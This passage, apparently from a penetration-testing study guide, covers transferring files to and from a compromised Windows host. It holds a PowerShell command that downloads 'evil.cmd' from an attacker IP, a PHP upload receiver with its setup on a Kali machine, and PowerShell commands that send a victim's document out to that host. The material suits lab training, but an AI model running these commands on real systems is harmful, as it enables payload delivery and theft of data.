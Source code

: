 5. Paste into compromised comp's terminal.  
  
  
If copy/ paste doesn't work & you need to download the **.cmd** file from w/in the compromised machine's cmd prompt:  
```powershell
C:\Users\Offsec> powershell -command (New-Object System.Net.WebClient).DownloadFile('http://attacker_ip/evil.cmd', 'evil.cmd')
```



### Exfill via Scripting:

Assuming outbound HTTP traffic is allowed, we can use the _System.Net.WebClient_ PowerShell class to upload data to our Kali machine through an HTTP POST request.  
  
  
Setup:  
  
1. PHP script **upload.php** saved in Kali's **var/www/html**:  
```php
<?php  
$uploaddir = '/var/www/uploads/';  
  
$uploadfile = $uploaddir . $_FILES['file']['name'];  
  
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)  
?>
```
	Processes an incoming file upload request and saves the transferred data to the **/var/www/uploads/** directory.  

2. Create **uploads** folder & modify its perms so _www-data_ is owner & can read/ write:  
```bash
kali@kali:/var/www$ sudo mkdir /var/www/uploads  
  
kali@kali:/var/www$ ps -ef | grep apache  
root      1946     1  0 21:39 ?        00:00:00 /usr/sbin/apache2 -k start  
www-data  1947  1946  0 21:39 ?        00:00:00 /usr/sbin/apache2 -k start  
  
kali@kali:/var/www$ sudo chown www-data: /var/www/uploads  
  
kali@kali:/var/www$ ls -la  
total 16  
drwxr-xr-x  4 root     root     4096 Feb  2 00:33 .  
drwxr-xr-x 13 root     root     4096 Sep 20 14:57 ..  
drwxr-xr-x  2 root     root     4096 Feb  2 00:33 html  
drwxr-xr-x  2 www-data www-data 4096 Feb  2 00:33 uploads
```
	*Allows anyone interacting w/ **uploads.php** to send anything to our machine*
  
3. Move to compromised machine's cmd prompt to upload desired doc:
```powershell
C:\Users\Offsec> powershell.exe (New-Object System.Net.WebClient).UploadFile('http://attacker_ip/upload.php', 'full_path/:important.docx')


OR

C:\Users\Offsec> powershell.exe Invoke-RestMethod -Uri http://attakcer_ip/upload.php -Method Post -InFile $uploadpathfile
```
